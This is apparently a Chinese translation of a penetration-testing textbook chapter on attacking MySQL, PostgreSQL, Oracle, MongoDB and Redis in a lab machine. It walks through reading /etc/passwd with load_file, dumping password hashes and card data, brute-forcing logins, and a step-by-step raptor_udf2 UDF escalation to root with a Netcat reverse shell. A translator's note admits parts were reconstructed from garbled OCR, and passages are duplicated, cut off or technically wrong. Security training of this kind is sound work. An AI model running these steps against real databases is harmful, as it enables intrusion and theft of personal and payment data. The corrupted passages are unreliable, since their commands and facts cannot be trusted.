| Version: 5.0.51a-24+lenny2
| Thread ID: 38
| Capabilities flags: 43564
| Some Capabilities: Support4Auth, SupportsTransactions, Speaks4ProtocolNew, LongColumn, SwitchToSSLAfterHandshake, ConnectWithDatabase, SupportsCompression
| Status: Autocommit
| Salt: @n((nToV)>RGIwdepe--)
```

在这里，你可以看到由 `mysql-info.nse` Nmap 脚本提供的 MySQL 特定信息。该服务似乎在使用 MySQL 协议版本10，这与软件版本不同。版本为 `5.0.51a-24+lenny2`，这还告诉你该主机的底层操作系统是 Debian（Lenny 是 Debian 5 的代号）。在此区块信息中，你可以看到 `Salt: @n((nToV)>RGIwdepe--)`，这是一个用于哈希的伪匿名字符串。每次连接到数据库时，盐（Salt）都会不同。还有其他信息告诉它具备哪些功能。

（注：提供的 OCR 文本在源代码后半部分存在大量的乱码和重复，特别是在第 387-389 页。根据数据库安全教材的上下文，以下是所提供章节的重建逻辑流。）

你可以使用 `show tables;` 命令显示当前选择数据库中的表，结果如下：

```mysql
mysql> show tables;
+------------------------------------------------------+
| Tables_in_mysql |
+------------------------------------------------------+
| columns_priv |
| db |
| event |
| func |
| general_log |
| help_category |
| help_keyword |
| help_relation |
| help_topic |
| host |
| ndb_binlog_index |
| plugin |
| proc |
| procs_priv |
| servers |
| slow_log |
| tables_priv |
| time_zone |
| time_zone_leap_second |
| time_zone_name |
| time_zone_transition |
| time_zone_transition_type |
| user |
+------------------------------------------------------+
23 rows in set (0.00 sec)
```

你可以在任何 MySQL 数据库中找到类似的表。这些表包含了与 MySQL 服务器实例相关的全局设置。另一方面，`information_schema` 数据库包含了与服务器上其他数据库的数据——表、列和其他元数据。获取有关这些系统数据库（针对各种版本）的最新信息一个地方是访问 dev.mysql.com/doc 上的 MySQL 参考手册。你可以通过使用 `information_schema` 然后再使用 `show tables` 命令来使用该数据库。这里是 `information_schema` 数据库中的表：

```mysql
mysql> show tables;
+------------------------------------------------------+
| Tables_in_information_schema |
+------------------------------------------------------+
| CHARACTER_SETS |
| COLLATIONS |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS |
| COLUMN_PRIVILEGES |
| KEY_COLUMN_USAGE |
| PROFILING |
| ROUTINES |
| SCHEMATA |
| SCHEMA_PRIVILEGES |
| STATISTICS |
| TABLES |
| TABLE_CONSTRAINTS |
| TABLE_PRIVILEGES |
| TRIGGERS |
| USER_PRIVILEGES |
| VIEWS |
| 117 rows in set (0.00 sec) |
```

如果你没有数据库的 root 权限，并且不知道它的内部结构（例如表名），你可以查询 `information_schema`（其表名和列是已知的）来学习它们。例如，可以使用 `select TABLE_NAME from TABLES;` 显示 MySQL 实例中所有表的名称，它将返回 `information_schema`、`merchant` 和 `mysql` 子数据库中所有表的名称，如文所示：

```mysql
mysql> select TABLE_NAME FROM TABLES;
| TABLE_NAME |
| CHARACTER_SETS |
| COLLATIONS |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS |
| COLUMN_PRIVILEGES |
| KEY_COLUMN_USAGE |
| PROFILING |
| ROUTINES |
| SCHEMATAS |
| SCHEMA_PRIVILEGES |
| STATISTICS |
| TABLES |
| TABLE_CONSTRAINTS |
| TABLE_PRIVILEGES |
| TRIGGERS |
| USER_PRIVILEGES |
| VIEWS |
| connection |
| orders |
| payment |
```

大写字母命名的表是 `information_schema` 数据库的一部分，而之前查询的从 `COLUMN_PRIVILEGES` 到 `user` 的所有表都是 `mysql` 数据库的一部分。其余表必须属于 `merchant` 数据库，这是一个用户定义的数据库，其中可能存在一些有趣且可能敏感的信息。

使用 `use` 命令切换到 `merchant` 数据库，然后使用 `show` 列出该数据库的表。你应该看到以下输出：

```mysql
mysql> show tables;
+----------------+
| Tables_in_merchant |
+----------------+
| connection |
| orders |
| payment |
+----------------+
3 rows in set (0.00 sec)
```

这是你可能在一个接受在线支付的业务数据库中看到的内容示例。你可以使用 `describe` 命令显示表的结构——例如，`describe connection;`，它将输出类似的内容：

```mysql
mysql> describe connection;
+-----------+--------------+------+-----+---------+----------------+
| Field     | Type         | Null | Key | Default | Extra          |
+-----------+--------------+------+-----+---------+----------------+
| id        | mediumint(9) | NO   | PRI | NULL    | auto_increment |
| type      | varchar(30)  | NO   |     | NULL    |                |
| connection| varchar(255) | NO   |     | NULL    |                |
| username  | varchar(255) | NO   |     | NULL    |                |
| password  | varchar(255) | NO   |     | NULL    |                |
+-----------+--------------+------+-----+---------+----------------+
5 rows in set (0.00 sec)
```

在这里，你可以看到此表中有五列，列在 `Field` 标题下。你可以看到每列的数据类型（在 `Type` 下）以及列的最大尺寸。例如，`id` 列是 `mediumint`，最大尺寸为 9。`Ints`、`mediums` 和 `longs` 指整数类型（整数，不是小数），具有不同的最大值和最小值。`Ints` 是一种常见的数据类型，就像 `varchar` 一样，后者代表变长字符或字符字符串，其在内存或磁盘中的数据大小是固定的，但可以实现高效的容量存储。`Null` 列显示字段是否允许包含空值（无任何内容）。这些都被设置为 `NO`，因此每个字段都包含某些数据。

信息是以这种方式存储的。因此，你应该与你的客户合作解决此问题。当你被要求进行安全审查时，如果你开始联系数据库中的人员告知他们泄露情况，或者公开此事，那将是极其愚蠢的。

我们希望你在现实世界中永远不会遇到这种情况。遗憾的是，这种情况确实发生了，而且未来很可能还会发生！如果你在渗透测试期间遇到可以访问的此类数据库，你首先有责任让该公司知道你发现了什么以及发现的严重性。这可能是一个优先事项，并且具有你在处理敏感安全问题时所预期的紧迫性。


# 数据库安全与渗透测试

恶意黑客会在黑市寻找此类信息，或利用其进行欺诈。他们肯定会获取数据的副本，甚至可能删除原始数据，并在之前留下索金信。使用 `drop table payment;` 命令可以轻松地删除数据。尝试亲自查看结果，然后使用 VirtualBox 机器的重置功能重启你运行书籍实验室的虚拟机。由于实验室是活动光，它将恢复到原始状态，数据库中的数据将重新填充。

当使用 `show tables` 命令时，客户端实际上是在查询 `information_schema` 表以查找数据库包含的内容。`show tables` 并不是一个 SQL 命令——它是内置在客户端中的命令。遗憾的是，你无法向有漏洞的网站中“注入” `show tables` 命令来揭示数据库的内部运作。此类命令直接在 MySQL 客户端中运行，它们本身不是 SQL 语句。在底层，它们使用 SQL 查询数据库。在某种意义上，这是一种为了方便合法 DBA 生活而设计的简写命令记忆符。然而，正如你在本章后面看到的，有一种方法可以通过 SQL 语句为非法的管理员（或黑客）显示表，这只要你知道如何操作，就非常简单。

如前所述，MySQL 有它自己的用户，你可以尝试这条 SQL 语句：`select User, Password from mysql.user;` 这对书籍实验室的 MySQL 实例有效，并输出类似下所示的结果：

```mysql
mysql> select User, Password from mysql.user;
```

| User | Password |
| :--- | :--- |
| root | *6E68E6FDA6F9B3EA4100EF21EF28BE64A6EAF3A158 |
| root | *6E68E6FDA6F9B3EA4100EF21EF28BE64A6EAF3A158 |
| root | *6E68E6FDA6F9B3EA4100EF21EF28BE64A6EAF3A158 |
| debian-maint | *02B939FF6CA06E4D09609700C0259750F352BA |
| root | *6E68E6FDA6F9B3EA4100EF21EF28BE64A6EAF3A158 |

5 rows in set (0.01 sec)

在上一个查询示例中，使用了 `mysql.user` 来引用 `mysql` 数据库中的用户表，而无需先切换到数据库。如果你能找到运行这条 SQL 语句的方法（无论是在 Web 应用程序中还是通过滥用应用程序表单），你的客户就面临严重问题，你可以开始破解你找到任何哈希值。

MySQL 有许多内置函数，你可以使用它们获取有关数据库本身的信息。例如，`SELECT @@VERSION;` 返回的版本信息如下：

```mysql
mysql> SELECT @@VERSION;
```

| @@VERSION |
| :--- |
| 5.0.51a-24+lenny2 |

1 row in set (0.01 sec)

如果你无法直接访问其端口，运行包含 `@@VERSION` 变量的 SQL 语句是确定 MySQL 数据库版本的极佳方法。`@@VERSION` 函数不是 MySQL 客户端的一部分——它是 MySQL 实现的一部分，因此如果你能够访问它，可以确信它将帮助你识别版本。

MySQL SQL 实现内置的另一个函数是 `load_file` 函数，你可以尝试将其作为文件使用。例如，我们将使用它来访问底层主机上的 `/etc/passwd` 文件。

首先，在 `merchant` 数据库中创建一个名为 `password` 的新表，带有一个类型为 text 的字段（在我们的示例中也称为 password）。实际的表名和列名并不重要：`CREATE TABLE merchant.password (password text);` 如果现在描述此表，你应该看到以下内容：

| Field | Type | Null | Key | Default | Extra |
| :--- | :--- | :--- | :--- | :--- | :--- |
| password | text | | NULL | | |

接下来，向此表插入一条新记录，值将是使用 `LOAD_FILE` 函数加载的 `/etc/passwd` 文件的内容。

```sql
INSERT INTO merchant.password VALUES (load_file('/etc/passwd'));
```

你现在应该对表运行 `SELECT *` 语句并查看其内容。你应该会看到主机的密码文件。为什么不对 `/etc/shadow` 文件尝试相同的方法呢？在该主机上，这行不通。你知道为什么吗？因为 MySQL 软件通常以全 root 权限运行，但它经常以主机上较低权限的用户身份运行，因此它无法执行 root 用户可以做的一切。如果你是以 root 用户身份登录 MySQL 数据库，情况就是如此，因为这与主机的 root 用户不同。困惑吗？这是一个需要克服的常见陷阱。记住，数据库有自己的用户和权限模式，它们是独立的，但仍然受到 OS 权限的限制。

如果可行并启用，这种文件读取功能对你的客户来说可能是极其危险。如果你获得了这种能力，你将尝试读取 `/etc/passwd` 和 `/etc/shadow` 等文件，看看是否可以获取用户名和密码哈希值。当然，你不应该能看到这些，但在配置不当的系统上可能会。还可以通过 SQL 语句向主机 OS 写入文件，这可以让你在服务器上获得立足点，并使用我们已经看到并使用的方法提升权限。

尽管你是以 MySQL root 用户登录此 MySQL 数据库，但实例或服务是以全 root 权限运行的，且它经常以主机上较低权限的用户身份运行，因此无法执行 root 用户可以做的一切。如果你是以 root 用户身份登录 MySQL 数据库，情况就是如此，因为这与主机的 root 用户不同。困惑吗？这是一个需要克服的常见陷阱。记住，数据库有自己的用户和权限模式，它们是独立的，但仍然受到 OS 权限的限制。

## PostgreSQL

PostgreSQL 是一个开源 RDBMS，通常运行在 TCP 端口 5432 或 5433。事实上，你可能已经在使用 PostgreSQL 而没有意识到。如果是这样，你可能会看到它在你的 Kali Linux 虚拟机上运行。PostgreSQL 与 MySQL 相似，但不同之处足以让你在不熟悉时感到沮丧。PostgreSQL 还允许用户读取和写入主机操作系统的文件，这是执行该任务所需的 UDF。

我们早期的端口扫描结果显示了关于 PostgreSQL 的以下信息：

```
5433/ open postgresql PostgreSQL DB 9.1.2 - 9.1.3
```

`apt install postgres-client-common`。安装完成后，你可以使用以下命令连接到 PostgreSQL 服务：

```
psql -h <TargetIP> -p <Port> -U <UserName>
```

我们已经为你提供了两个潜在的用户名和密码，你可以尝试使用它们来访问此服务。你也可以尝试使用暴力破解工具 Hydra 对此服务进行攻击，因为 PostgreSQL 的账户锁定通常是由用户手动处理的，而且很可能没有被发现（触发过锁定）。假设你正确猜中了其中一个或多个账户的密码，你将看到类似下方的提示符：

```
Password for user postgres:
pgsql (11.3 (Debian 11.3), server 9.1.2)
Type "help" for help.

postgres=#
```

PostgreSQL 数据库经常存在配置不当的问题，并留下了不安全的用户名和密码。我们想在我们的漏洞实例中重点强调这一特定错误。Hacker House 在现实世界中多次发现过这种情况。我们还在无意中暴露的配置文件发现过 PostgreSQL 凭据。

尽管 PostgreSQL 使用 SQL 进行查询，但客户端有自己一套并不直观的命令。MySQL 客户端使用像 `use` 和 `show tables` 这样的命令助记，而 Psql 使用反斜杠和单个字母的组合来发布命令。可以使用 `\?` help 命令列出这些命令。我们将为你展示几个常用的命令示例。`\l` 将列出可用的数据库。

```
postgres=# \l
```

| Name | Owner | Encoding | Collate | Ctype | Access |
|---|---|---|---|---|---|
| merchant | postgres | SQL_ASCII | C | C | |
| postgres | postgres | SQL_ASCII | C | C | |
| template0=c/postgres | | SQL_ASCII | C | | |
| postgres-CTT/postgres | | | | | |
| template1=c/postgres | postgres | SQL_ASCII | C | C | |
| postgres-CTT/postgres (4 rows) | | | | | |

`\c` 命令将你连接到指定的数据库。例如，`\c merchant` 将连接到 merchant 数据库并显示以下信息。注意提示符会改变以表示当前数据库。

```
postgres=# \c merchant
psql (11.3 (Debian 11.3-1), server 9.1.2)
You are now connected to database "merchant" as user "postgres"
merchant=#
```

一旦连接到数据库，你就可以使用 `\d` 来列出或描述该数据库中的表（关系）。

```
merchant=# \d
```

| Schema | Name | Type | Owner |
|---|---|---|---|
| public | payment | table | postgres |
| public | payment_id_seq | sequence | postgres |
| (2 rows) | | | |

现在，你使用 `\d payment` 来描述 payment 表的结构，而不是显示数据。这个 merchant 数据库和 payment 表与你之前在 MySQL 数据库中看到的是不一样的。这是一个运行在不同软件实例上的独立数据库。要查询数据库并输出 payment 表的内容，你可以使用如下的 SQL 语句：

```
merchant=# select * from payment;
```

| id | firstname | lastname | address | cardtype | cardnumber | expiry |
|---|---|---|---|---|---|---|
| 1 | Tyler | Durden | 1337 Paper St. | VISA | 4104678474167826 | 0119 |
| 2 | Skeleton | Heman | Evil Villain | VISA | 4501536680452382 | 0119 |
| 3 | Bruce | Wayne | Batcave, Gotham City | VISA | 4625360832030743 | 0119 |
| 4 | Ted | Bill | Excellent Avenue | VISA | 4683815476862704 | 0119 |
| 5 | Darby | Murphy | ZeroCool Labs | VISA | 441583113618407 | 0119 |
| (5 rows) | | | | | | |

在这里我们看到了更多个人身份信息（PII）。再次强调，这应该引起你所工作的任何客户立即注意。通过实验 PostgreSQL 客户端命令，你会发现它的行为与 MySQL 不同。现在，你尝试使用像在 MySQL 中那样的某些 SQL 语句，并熟悉使用 PostgreSQL 客户端。接下来，你将运行 Metasploit 漏洞利用，通过使用 UDF 突破此数据库并进入主机操作系统。

## 逃逸数据库软件

你已经获得了访问数据库的权限，并探索了它的结构和内容。你的下一步是看是否有方法跳出数据库的限制系统上下文，查看底层的操作系统，并至少获得文件系统的访问权限。实现此点的一种方法是……（此处原文似乎存在逻辑混乱或重复片段，已根据指令翻译可理解部分）。

- 账户 QS/QS_CB 已锁定
- 账户 QS_CBAM/QS_CBAM 已锁定
- 账户 QS_CS/QS_CS 已锁定
- 账户 QS_ES/QS_ES 已锁定
- 账户 QS_OS/QS_OS 已锁定
- 账户 QS_WS/QS_WS 已锁定
- 发现账户 SCOTT/TIGER
- 账户 SH/SH 已锁定
- 账户 WKSYS/WYS 已锁定
- 正在根据 sid (TSH1) 检查用户提供的密码
- 正在检查用户提供的字典
- 发现账户 SYS/SYS
- 发现账户 SYSTEM
- 账户 WMSYS/WMSYS 已锁定
- 账户 XDB/XDB 已锁定
- 账户 WKPROXY/WKPROXY 已锁定
- 账户 ODM/ODM 已锁定
- 账户 OTM/ODM/MTR 已锁定

一旦识别出有效的 DNS 监听器，针对 Oracle 数据库要采取的第一步是使用 `tncmd` 或 `metsplus` 识别一个有效的 SID。一旦确定了 SID，你就可以开始测试常用账户。在获得众多默认账户之一后，你就可以像处理 MySQL 一样对数据库进行渗透。你需要一个 Oracle 客户端（例如 Oracle instant client，这是一种非免费但广泛提供的用于连接 Oracle 服务的软件工具）。枚举数据库模式、查看数据库内容、提升权限并逃逸到宿主机操作系统。在启用了 Java 功能的 Oracle 安装中，逃逸到宿主机操作系统是可能的，这些功能的工作方式非常类似于 UDF 函数漏洞利用——即需要在服务器上放置一些开发代码以启用 shell。

Oracle 同样还以极易受到数据库权限提升攻击而闻名，你可以在存储过程中注入 PL/SQL，从而将非 DBA 账户转换为高权限的 DBA 账户。由于这些攻击的执行方式多种且频繁，我们完全可以就 Oracle 的安全问题写一整本书（David Litchfield 恰恰做到了这一点）。Hacker House 的经验是，由于默认账户的普遍存在以及软件默认存储过程中存在的大量权限提升攻击，我们在攻破 Oracle 安装方面从未失败过。

我们在这里展示了识别出 TNS 监听器后的基本步骤。然而，安装一个 Oracle 9i 或 Oracle 10g 并尝试通过滥用内部存储函数的一些更高级的数据库权限提升利用是非常值得的。在 Exploit Database (www.exploit-db.com) 中可以找到数百个针对早期版本 Oracle 的示例，而且 David Litchfield 被认为发现了其中绝大多数问题。如果 Oracle 安装了 JVM，那么通常可以上传用 Java 编写的用户定义函数，以便在宿主机操作系统上执行命令。

## MongoDB

MongoDB (www.mongodb.com) 设计初衷是利用现代技术通过内存访问对象来提高速度，它通常被配置为无密码。恶意的互联网攻击者会使用脚本扫描此类暴露在公共 IP 地址下的无密码数据库，创建数据库的副本，然后删除原始数据。他们会留下一张表，其中包含有关如何支付赎金（使用比特币或其他加密货币）以取回数据的信息。遗憾的是，这种情况发生在很多刚开始上线的新公司和初创公司身上——他们可能增长得很快，但并不总能按要求维护好系统。这些 NoSQL 数据库通常有良好的 Web 界面和 API 供交互；例如，我们之前的 `nmap` 扫描识别出了运行在 TCP 端口 27017 上的 MongoDB 控制台。访问浏览器将为你提供有关 MongoDB 实例及其包含信息的额外信息。使用 MongoDB 的方法非常简单。因为它通常被配置为无密码，因此是寻求快速获利的数据盗分子非常有吸引力的目标。

## Redis

Redis 是另一种 NoSQL 数据库，它利用计算机内存的现代进展，通过使用存储和对象值来实现高速数据库访问。由于改进的高速访问特性，Redis 数据库是暴力破解攻击的理想目标。即使设置了密码保护，Redis 也允许每秒数千次密码尝试。Hydra 有一个为此目的设计的模块，你应该针对书本实验或你在不同虚拟机上的自己的 Redis 安装进行尝试，看看你能多快从 Redis 实例中获取密码。

Redis 是另一个 NoSQL 数据库的示例，它使用主机的内存而非文件系统来存储数据。如果设置了 `AUTH` 指令，可以对其进行暴力破解。在这种情况下，根本没有密码。你可能会发现你的客户端正在内部网络中使用没有任何认证的 Redis 数据库。

## 赌 Redis 的密码保护

我们遇到过一种情况，客户说他们没去加密码，因为密码反正可以被高速度被暴力破解。但足够长且复杂的密码将让普通攻击者觉得这种攻击非常不便。Redis 文档提供了这条建议：

> 注意：由于 Redis 的高性能特性，可以在极短的时间内并行尝试大量密码，确保生成一个强且非常长的密码，以使这种攻击变得不可行。

数据库可能会被 Web 应用程序访问，该程序需要“知道”密码，但密码并没有硬编码在应用程序代码中；而是存储在配置文件中。如果攻击者获取了 Web 服务器的读取权限，他们就可以读取配置文件并获取数据库密码。在某些情况下，密码是明文存储的，而在另一些情况下，它可能经过了哈希处理。然而，即使密码经过了哈希，也可以通过暴力破解或字典攻击进行破解。

使用 MongoDB 的方法非常简单。因为它通常被配置为无密码，因此是寻求快速获利的数据盗分子非常有吸引力的目标。

## 通过数据库进行权限提升


让我们来看一个示例，即如何在数据库上获取 root 权限，或者在你通过命令注入突破边界并获得交互式会话的机器上获取 root 权限。在演示中，我们将从之前继续，通过利用 `CVE-2007-3280` 并使用 UDF（用户自定义函数）获取 `postgres` 用户的访问。我们将手动利用相同类型的问题，但利用配置错误在软件数据库中获取 root 权限。

此时，我们可以使用 `uname -a` 查看内核版本，或者使用 `linux-privsec-check` 等脚本搜索本地文件。对于本次练习，我们将利用运行在此主机上的另一个关系型数据库管理系统——MySQL。

如果你刚刚运行了针对 `CVE-2007-3280` 的 `postgrespayload` 漏洞利用（如前所示），并将 shell 升级为具有作业控制和伪终端（PTY）接口的 shell，你应该会看到如下所示的提示符。你还应该有一个用于配置参数的文件。

```
postgres@dbserver01:/var/lib/postgresql/9.1/main$
```

每当你成功在目标 Linux 主机上获得 shell 时，一个非常有用的命令是运行 `ps -af`。根据其 man 页，`ps` 将“报告当前进程的快照”。你可以看到在你成功获得立足点的主机上运行着哪些进程。如果这些进程中有任何是以 root 用户身份运行的，并且你有能够访问相应的服务，那么这些服务就值得进一步进行攻击调查。

以下是针对我们的漏洞数据库服务器运行 `ps` 时提供的输出提取。注意这几个不同的数据库进程是如何由相应的 Linux 用户运行的。查看列表顶部的项。该进程由 `mongodb` 用户启动，进程 ID（PID）为 837，由命令 `/usr/bin/mongodb --config /etc/mongo.conf` 启动。你可以非常确定这是一个 MongoDB 守护进程，而且根据我们看到的内容，并没有问题。

| UID | PID | PPID | STIME | TTY | TIME | CMD |
|---|---|---|---|---|---|---|
| mongodb | 837 | 1 | 00 15:43 | ? | 00:00:06 | /usr/bin/mongodb --config /etc/mongo.conf |
| www-data | 925 | 922 | 00 15:43 | ? | 00:00:00 | /usr/bin/apache2 -k start |
| root | 1038 | 1 | 00 15:43 | ? | 00:00:00 | /usr/sbin/cron cron |
| redis | 1072 | 1 | 00 15:43 | ? | 00:00:01 | /usr/bin/redis-server /etc/redis.conf |
| postgres | 1101 | 1 | 00 15:43 | ? | 00:00:02 | /usr/lib/postgresql/9.1/bin/postgres |
| root | 1109 | 1 | 00 15:43 | ? | 00:00:00 | /usr/bin/mysqld safe |
| root | 1151 | 1109 | 00 15:43 | ? | 00:00:00 | /usr/bin/mysqld --basedir/ |
| mysqld_ | 1152 | 1109 | 00 15:43 | ? | 00:00:00 | logger -p daemon.err -t postgres |
| postgres | 1173 | 1101 | 00 15:43 | ? | 00:00:00 | postgres: writer process |
| postgres | 1174 | 1101 | 00 15:43 | ? | 00:00:00 | wal writer process |

注意，有三个进程以 root 用户身份运行，其中命令名为 `mysqld`，即 MySQL 守护进程。该主机上的 MySQL 实例正以 Linux root 用户的身份运行。这是一个潜在的严重问题，因为控制了 MySQL 进程的攻击者可以将其权限提升到 root。当 PostgreSQL 守护进程是以 `postgres` 用户身份运行并在被利用时为我们提供该用户的 shell 时，如果我们能在 MySQL 服务中找到漏洞，我们应该能够获得 root shell。这意味着当守护进程启动时，它是以 root 用户身份启动的，而不是创建一个 `mysql` 用户并在该用户下运行该进程，例如。

多年来，这是 MySQL 和 MariaDB 的默认行为，直到它们在安装期间强制要求以低权限用户身份运行。其由于由于受影响 Web 服务器上一种流行的权限提升方法。攻击者会通过某些注入攻击攻破 Web 服务器，通常以 `nobody` 身份登录主机。他们会利用 MySQL 数据库获取主机系统上的 root 权限。由于其知名度以及黑客的滥用，MariaDB 和 MySQL 软件现在默认以低权限用户安装。尽管如此，你仍然看到管理员在数据库软件不需要时赋予其 root 权限。

我们现在将使用 DFS 漏洞来利用该配置，以便更好地理解 Metasploit 之前是如何为 PostgreSQL 提供 shell 的。如果你已经知道 `ps` 命令要查找什么，可以将其管道到 grep 以缩小搜索范围。这是一个示例：

```
ps -aef | grep root
```

> **注意**：在本章的早些部分，我们使用 MySQL root 用户账户访问了 MySQL 数据库。请记住，这个 root 用户账户与底层操作系统的 root 用户账户不是同一个——即 Linux 或 UNIX root 用户账户。

为了让下一次利用生效，你还需要能够读写目标的 `/tmp` 目录。这是一个经常用于漏洞利用的目录，因为通常对任何用户都可读可写。你可以通过数据库软件本身向其写入，但为了简单起见，我们将从那里进行操作。

切换到目录并尝试创建一个测试文件：

```bash
cd /tmp
touch test
ls -l
```

如果目录是可写的，我们就可以继续。我们将使用 `SELECT ... INTO OUTFILE` 语句将共享对象写入磁盘。这是用于实现 UDF（用户自定义函数）注入的常用技术。

(文本在后几页继续...)

与 `postgres_payload` 一样，此漏洞利用将在目标机器的 `/tmp` 目录下创建一个共享对象。该漏洞目前以源码形式存在，因此你可以查看它，这在你从互联网下载攻击代码时是应该执行的步骤。一旦你检查了源码并确认该代码是合法的且不是恶意后门，你需要在目标机器上编译此文件。然而，你并不需要一个普通的可执行文件——因为你正在目标系统上运行这些命令。第一条命令启动 GNU C 编译器，它有许多可能的选项（查看主页页），并将输出一个名为 `raptor_udf2.o` 的文件，且不会有任何关于已完成的指示。

```
gcc -c raptor_udf2.c
```

`.o` 文件是编译后的对象文件，准备好进行链接，并在我们的案例中作为系统可执行文件或共享库文件使用。现在，使用以下命令从该文件创建共享对象：

```
gcc -shared -o raptor_udf2.o raptor_udf2.c -lc
```

输入像这样陌生的命令可能很棘手，尤其是当你一个已经攻破的机器上输入它们时。那些在阅读此漏洞源码时遇到困难的人可能会意识到，手动输入命令并不是必要的——该命令以注释的形式包含在源码中。相反，使用 `cat` 将源码输出到终端，并高亮该行进行复制和粘贴。然而，如果复制和粘贴对你不起正常作用（许多 Linux 用户都遇到这种情况），手动输入信息将达到相同的结果。如果你运行 `ls -a *`，你会发现现在有三个文件：源码、`.o` 文件和 `.so` 文件。

```
-rw-r--r-- 1 postgres 3178 Apr 30 2018 raptor_udf2.c
-rw-xr-x-- 1 postgres 3372 Jul 23 17:17 raptor_udf2.o
-rwxr-xr-x 1 postgres 6121 Jul 23 17:30 raptor_udf2.so
```

检查所创建文件的权限至关重要。如果你没有写入可读权限，MySQL 进程将无法读取该文件，这可能导致漏洞利用无法完成所有步骤。这是 Hacker 学生经常掉入的陷阱，需要重新启动漏洞利用过程，并对失败的尝试进行清理。

在目标主机上启动 MySQL 客户端，使用与之前相同的 `root` 用户名和密码。你不需要指定主机，因为你正在目标机器上访问本地 MySQL 实例。

```
mysql -u root -p
```

现在你应该有一个 `mysql>` 提示符。你也可以远程利用此问题并从你的 Kali 实例连接到 MySQL 服务，但在现实世界中，你可能无法直接连接到 MySQL 服务端口，而是使用目标系统上的工具。要继续此漏洞利用，你应该遵循漏洞源码注释中提供的说明。我们在这里也会展示并解释它们。你需要稍微修改这些说明以适应你目标的每个系统。

你需要使用 `mysql` 数据库，你的第一条命令是 `use mysql`。你应该看到 "Database changed" 消息。在数据库 `foo` 中创建一个新表。它将有一个类型为 `blob` 的单字段。该 SQL 语句如下：

```
CREATE TABLE foo (line blob);
```

你实际上将编译的共享对象（这是一个二进制文件）加载到此数据库表中。正如我们在章节开头提到的，数据库可以用于存储各种数据，包括二进制对象，我们确实可以使用 `describe` 命令来检查你刚刚创建的表，你会看到以下内容：

| Field | Type | Null | Key | Default | Extra |
|---|---|---|---|---|---|
| line | blob | | NULL | | |
| 1 row in set (0.00 sec) | | | | | |

使用 `INSERT` 命令和 MySQL 的 `load_file` 函数，你可以将共享对象插入到此表中。你应该使用的命令与源码用法部分显示的命令并不完全相同。你需要如下所示更改文件路径，即共享对象位于目标系统上的位置：

```
INSERT INTO foo VALUES (load_file('/tmp/raptor_udf2.so'));
```

你应该会看到类似这样的确认消息：

```
Query OK, 1 row affected (0.01 sec)
```

如果共享对象成功加载到表中，运行 `SELECT * FROM foo;` 将导致一列表不可费懂的输出。你不希望看到的是表中包含一个 `NULL` 值，这意味着文件没有被加载。这通常是因为上述的权限问题。

现在，该字段的内容可以转储到另一个文件中。我们需要将其写入目标主机上的一个目录，我们之前作为 `postgres` 用户无法写入该目录。该目录是 `/usr/lib` 目录。这是将共享对象从 `/tmp` 拷贝到 `/usr/lib` 的笨但必要的方法。如果你尝试为 `postgres` 用户写入 `/usr/lib` 目录（例如使用 `touch /usr/lib/foo`），你会看到-

# 第 11 章 数据库 389

你找到了另一种访问该虚拟机影子文件（shadow file）的方法。这里是从我们受漏洞数据库服务器获取的一些哈希，它们将与你看到的以及稍后尝试破解的哈值不同：

```
postgres:6$$DIGFg4S$dXdTISpo0/rHJxk6rpMDWJI2vQ05ggX27KZSDZSI/
Qu2JUWIbBIEE71RyPk8XWJDkhni7gg3T4s::17257:0:999999:database
pAWEDFBCgmg:17257:0:999999:
support:Dba5H51RLYyc::17257:0:999999:
dba:VxaFm75hLM0g:17257:0:999999:
frehd:zQXVUNUL/FUM:17257:0:999999:
tomt:YYSBNBZWbPI1:17257:0:999999:
craigd:JGYGckNWf1GU:17257:0:999999:
```

为了获取交互式 shell，请使用 Netcat 将 shell 发回 Kali Linux 虚拟机，在那里你需要明智地设置一个 Netcat 监听器。你可以在前面的章节中找到相关示例，它的工作原理是相同的。但是，`do_system` 函数可能会处于挂起状态，直到 Netcat 会话完成。

请注意，该漏洞利用仅在数据库以 root 权限运行时才有效，由于该问题被广泛利用，MySQL 和 MariaDB 的较新版本已对此进行了更改。然而，许多系统管理员由于早期的行为，错误地认为数据库应该以 root 身份运行并拥有过度权限。

## 总结

在本章中，你学习了 MySQL 和 PostgreSQL 等关系型数据库管理系统（RDBMS）。这些关系型数据库使用子数据库来存储元数据，元数据描述了数据库中的实际数据。这些通常是你的客户端存储的敏感数据，你不希望未经授权的用户访问。

我们提供了获取 MySQL 和 PostgreSQL 实例用户名和密码的步骤，你可以轻松地探索并学习基础知识。通常情况下，访问数据库并不容易（尽管尝试你发现的默认用户名和凭据是值得的）。暴力破解攻击应谨慎使用；一旦建立了账户锁定策略，Hacker House 经常会利用此类攻击目标数据库。

数据库管理系统（DBMS）无论是否为关系型，在软件程序方面，它们都存在已知漏洞的历史，你应该通过发现的版本信息对其进行检查。可能可以使用公开漏洞完全绕过身份验证，或者使用 Metasploit 模块跳出数据库，以底层操作系统的用户身份获取 shell。

你应该始终检查此类可能性。你还应该熟悉手动执行这一过程（正如我们的 MySQL 示例所示），因为预构建的漏洞利用程序经常会因为目标数据库的细微配置差异而失败。你对数据库了解得越多，你对它们的滥用就会变得越高级。

你需要熟练地使用命令行在数据库中浏览和操作数据。你还需要熟悉 SQL 语法和命令，在测试 Web 应用程序时，你会发现这非常有帮助。这将帮助你发现、利用和理解 SQL 注入漏洞。在下一章中，我们将向你展示如何利用一个易受 SQL 注入攻击的 Web 应用程序。

在本章的“通过数据库进行权限提升”部分，我们展示了如何通过利用以 root 身份运行的 MySQL 守护以 root 用户身份运行命令。再次，我们利用加载到数据库的共享对象创建了 UDF（用户定义函数）。

PostgreSQL Metasploit 漏洞利用也使用了相同的方法，从存储在 `/tmp` 目录的共享对象创建 UDF。它只是去除了实现细节并为你简化了流程。理解 Metasploit 模块的工作原理以及它们执行的过程将让你作为安全测试人员获得显著优势，使你能够修改过程并消除阻止漏洞利用的配置错误。

# 第 12 章

# Web 应用程序

在本章中，我们将研究组织如何通过存在漏洞的 Web 应用程序在网上暴露自己——这是一种提供动态内容并允许用户交互的网站，通常拥有其自己的用户和权限系统。你再次从外部视角查看目标，就像普通公众成员一样。

Web 应用程序通常执行广泛的功能，并使用许多协作工作的组件，例如存储和提供内容的数据库、跟踪用户会话的功能以及如 Apache 或 Nginx 等 Web 服务器（或两者）。Web 应用程序可能会使用表单或其他形式的在线查询与用户群通信，或允许提交在线查询。你可能会发现（并且肯定会寻找）利用 Web 应用程序的弱性来访问公司的内部网络，从而访问内部主机。

